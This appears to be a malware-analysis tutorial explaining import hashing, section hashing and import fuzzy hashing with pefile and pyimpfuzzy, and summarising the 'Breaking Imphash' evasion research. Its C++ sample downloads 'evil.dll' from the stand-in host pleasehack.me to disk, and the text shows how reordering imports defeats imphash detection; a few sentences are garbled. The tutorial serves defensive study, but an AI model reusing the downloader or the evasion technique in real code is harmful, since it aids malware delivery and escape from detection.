









:orphan:
(fuzzy-hashing-import-hashing-and-section-hashing)=

# Fuzzy Hashing, Import Hashing and Section Hashing

In a [previous post](yara-a-powerful-malware-analysis-tool-for-detecting-ioc-s-part-2), we looked at a variety of methods for tracking and recognizing malware samples, including hashes, fuzzy hashes, and even developing YARA rules. However, threat actors are constantly changing their signatures, making it difficult for us to recognize their approaches and tactics.

In this post, we'll go over a few advanced strategies for detecting malware samples that come from the same threat actor. The four key topics are as follows:

- Import Hash
- Section Hash
- Import Fuzzy
- Breaking Import Hash: recent [research by Chris Balles and Ateeq Sharfuddin](https://arxiv.org/pdf/1909.07630.pdf)

## Import Hash

Various organizations, such as FireEye, which specializes in incident response, and VirusTotal, which specializes in sandboxing and online scanning, have found that threat actors may be utilizing the same code for multiple targets with just minor changes to make it fit for their target. So, what does this all imply for us? Let's find out.

Checking the hash of the Import Address Table (IAT) is the plan, since when malware code is built, the linker generates and builds the IAT based on the sequence of the functions in the code.

Therefore, if threat actors are utilizing the same code with minor alterations, we could likely identify the samples we gather and categorize them based on the IAT's hash into which family or threat actor they belong.

Let's illustrate with a basic example as shown below:

```cpp
int CreateCmd() {
    wchar_t cmd[] = L"cmd.exe";
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    BOOL OK = CreateProcessW(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    return 0;
}

int CreateNotepad() {
    wchar_t cmd[] = L"notepad.exe";
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    BOOL OK = CreateProcessW(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    return 0;
}

int downloadDLL() {
    DWORD dwFileSize = 1024;
    char* buffer = new char[dwFileSize + 1];
    DWORD dwBytesRead;
    DWORD dwBytesWritten;
    HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://pleasehack.me/evil.dll", 0, 0, 0, 0);
    HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    do {
        buffer = new char[dwFileSize + 1];
        ZeroMemory(buffer, sizeof(buffer));
        InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
        WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
        delete[] buffer;
        buffer = NULL;
    } while (dwBytesRead);

    CloseHandle(hFile);
    InternetCloseHandle(hHttpFile);
    InternetCloseHandle(hSession);
    return 0;
}
```

Please check the function call order and how main function is calling them too:

```cpp
int main() {
    CreateCmd();
    CreateNotepad();
    downloadDLL();
    return 0;
}
```

Now, let's examine what happens if we make these minor modifications to the code?

```cpp
int downloadDLL() {
    HINTERNET hSession = NULL;
    DWORD dwFileSize = 1024;
    char* buffer = new char[dwFileSize + 1];
    DWORD dwBytesRead;
    DWORD dwBytesWritten;
    HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://pleasehack.me/evil.dll", 0, 0, 0, 0);
    hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    do {
        buffer = new char[dwFileSize + 1];
        ZeroMemory(buffer, sizeof(buffer));
        InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
        WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
        delete[] buffer;
        buffer = NULL;
    } while (dwBytesRead);

    CloseHandle(hFile);
    InternetCloseHandle(hHttpFile);
    InternetCloseHandle(hSession);
    return 0;
}

int CreateCmd() {
    //...
}

int CreateNotepad() {
    //...
}

int main() {
    CreateCmd();
    CreateNotepad();
    downloadDLL();
    return 0;
}
```

As you can see, we are swapping the order of `InternetOpenUrl` and `InternetOpenA`:



Let's update the code this time to print the imported DLLs and the functions being referenced, for both sample
variations:

```python
import pefile

file = pefile.PE("hack.exe")
print (file.get_imphash())

file.parse_data_directories()
for entry in file.DIRECTORY_ENTRY_IMPORT:
    for imp in entry.imports:
        print ('\t', hex(imp.address), entry.dll, imp.name)

file2 = pefile.PE("hack2.exe")
print (file2.get_imphash())

file.parse_data_directories()
for entry in file.DIRECTORY_ENTRY_IMPORT:
    for imp in entry.imports:
        print ('\t', hex(imp.address), entry.dll, imp.name)
```

Additionally, at the end, we compute the import hash for the each file.

Sample of output for each calculated section. They do not
match:





Also, changing the calling sequence of the functions `InternetOpenA` and `InternetOpenUrlA` from the DLL `WININET.DLL` in the code will likewise change their order in the _IAT_:





This is why we obtained two different hashes for a program with identical functionality but a different calling order.

Did we change the functionality of the program?

The answer is no, however it is interesting to examine how little adjustments influenced the output of the program and, consequently, how we should map these samples into our malware classifications.

If you check VirusTotal's basic properties section, you will notice the usage of `imphash` for files that are submitted:



How does Import Hash work?
Import hash is computed by extracting all imported libraries and their linked functions into a string format, concatenating them, and then applying the cryptographic function necessary to build the hash for that string.

[Pehash](http://manpages.ubuntu.com/manpages/impish/man1/pehash.1.html), an utility available on several Linux versions, can generate imphashes, among other hashes.
In the example given below, pehash was utilized to generate all significant hashes, including `imphash`:

```bash
pehash hack.exe
```



## Section Hash

This method of hashing focuses on comparing the hashes of certain parts with those of other samples. As we observed with the previous import hashing technique, the notion is that parts from distinct samples may share commonalities, indicating that they may be associated with the same threat actor. However, no assurance that this will always be the case.

Here is an illustration of a Python application that calculates the hashes for each portion of a sample:

```python
import pefile

f = pefile.PE("hack.exe")
for section in f.sections:
    print ("Section Name: \t", section.Name)
    print ("MD5 Hash: \t", section.get_hash_md5())
    print ("SHA256 Hash: \t", section.get_hash_sha256())
    print ()
```



We can once again use `pehash` to compute section hashes.
In the sample below, only the hashes of the `.text` section are verified using various hashing methods:

```bash
pehash -s .text hack.exe
```



## Import fuzzy

Due to the aforementioned concerns, the Japanese CERT team presented a new method for detecting malware similarities: generating the fuzzy hash for the malware in question. IAT, ergo _"Import Fuzzy"_ with the prefix `impfuzzy`.

You must install the Python modules `pefile`, `ssdeep`, and `pyimpfuzzy`. The comparison code is displayed below:

```python
import pyimpfuzzy
import sys

hash1 = pyimpfuzzy.get_impfuzzy(sys.argv[1])
hash2 = pyimpfuzzy.get_impfuzzy(sys.argv[2])

print ("ImpFuzzy1: %s" % hash1)
print ("ImpFuzzy2: %s" % hash2)
print ("Compare: %i" % pyimpfuzzy.hash_compare(hash1, hash2))
```

## Breaking Import Hash

We have already seen how import hash could be circumvented by simply reordering the function calls in the code, but there is another intriguing option, which was introduced by _Chris Balles and Ateeq Sharfuddin of Scythe Inc_. in their research whitepaper _"Breaking Imphash"_, which was also presented at _BSides Sacramento_.

How does Breaking Import Hash function? It is described as follows in the original paper:
_"The algorithm iterates over the import table and stores, for each module, a pair of (`OriginalThunk AddressOfCode`, `Thunk`) for each symbol's original thunk and thunk in an array named `origA`. Then, it duplicates this array into a new array called `newA` and randomizes its element order. The algorithm then iterates over the import table again, this time updating the initial thunks and thunks to the values in `newA`. By updating the thunks, the import address table is updated."_

It is essential to comprehend that upgrading the import table and import address table is not. The code expects to identify the virtual memory addresses corresponding to the imported symbols referenced by the thunks. After randomizing `newA`, the method maintains a mapping of `newA` to `origA` in a map called `importMap`.

After processing the full import table and import address table, the algorithm iterates over the entries of the base relocation table, searching for these addresses as keys in the map `importMap`.
If an address is discovered in `importMap`, the algorithm replaces its value with the value from the matching map. The previously derived, preserved PE.

[Breaking Imphash](https://arxiv.org/abs/1909.07630)

## References

[pefile](https://github.com/erocarrera/pefile)  
[pyimpfuzzy](https://pypi.org/project/pyimpfuzzy/)  
[ssdeep](https://ssdeep-project.github.io/ssdeep/)  
[Breaking Imphash](https://arxiv.org/abs/1909.07630)

:::{seealso}
Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html)
:::
